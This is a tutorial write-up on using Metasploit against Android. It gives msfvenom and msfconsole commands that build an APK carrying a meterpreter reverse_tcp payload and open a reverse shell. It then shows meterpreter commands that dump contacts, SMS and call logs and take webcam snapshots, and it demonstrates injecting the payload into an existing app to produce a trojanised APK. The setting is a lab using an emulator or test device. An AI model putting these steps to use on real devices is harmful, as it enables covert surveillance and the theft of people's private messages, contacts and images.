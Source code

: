 # Metasploit For Android

## DESCRIPTION

The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing. It is owned by Boston, Massachusetts-based security company Rapid7.

Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine.

## PREREQUISITES

1. Metasploit

2. adb(Android debug bridge)

3. Genymotion/Android device

Exploitation to get an android reverse shell
Connect to the remote target device(genymotion/android) using adb

![](https://github.com/v1ns3c/Write-ups/blob/b8eb5b3375fe3ebeb7c3236309f3b684487479ba/Images/Documentations/Metasploit_for_Android/0_1.jpeg)

1) Steps to generate an apk with the reverse_tcp payload
Go to ‘opt/metasploit-framework/bin’ and enter the following command to generate an apk

$ ./msfvenom -p android/meterpreter/reverse_tcp LHOST=<localhost ip> LPORT=4444 -o <destination path/test.apk>

![](https://github.com/v1ns3c/Write-ups/blob/efa9b7c48ef35f5b35c27813c16c9c08a0e2a4ed/Images/Documentations/Metasploit_for_Android/1.jpg)
![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/2.png)

Install the apk generated on the target device(genymotion/android)

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/3.png)
![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/4.png)

Go to ‘opt/metasploit-framework/bin’ and follow the steps to get the reverse shell

$ ./msfconsole

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/5.png)

$ use exploit/multi/handler

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/6.png)


$ set payload android/meterpreter/reverse_tcp

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/7.png)

$ show options

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/8.png)

$ set LHOST <localhost ip>

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/9.png)

$ exploit ‘or’ run

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/10.png)

Click on the test.apk application in the remote target device(genymotion/android) to get the reverse shell

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/11.png)

$ help ‘or’ ?

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/12.png)

$ dump_contacts

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/13.png)

$ dump_sms

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/14.png)

$ dump_calllog

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/15.png)

Go to the ‘metasploit-framework’ folder to get the dumps

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/16.png)

$ cat <calllog.txt>

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/17.png)

$ cat <contacts.txt>

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/18.png)

$ cat <sms.txt>

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/19.png)

Commands for webcam

$ webcam_list

$ webcam_snap 1 ‘or’ 2

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/20.png)

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/21.png)

2) Steps to inject reverse_tcp payload in an existing app(diva-beta.apk)

Go to ‘opt/metasploit-framework/bin’ and enter the following command

$ ./msfvenom -x <apk path/apkname.apk> -p android/meterpreter/reverse_tcp LHOST=<localhost ip> LPORT=4444 -o <destination path/test.apk>

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/22.png)

Install the app in the device and repeat the msfconsole steps as shown earlier to get the reverse shell.

## Extra Commands for metasploit

$ show exploits- (Get all exploits till date)

$ search <any random keyword>

(ex- search android- to get all exploits related to android)

$ info <exploit>

Thanks for reading!





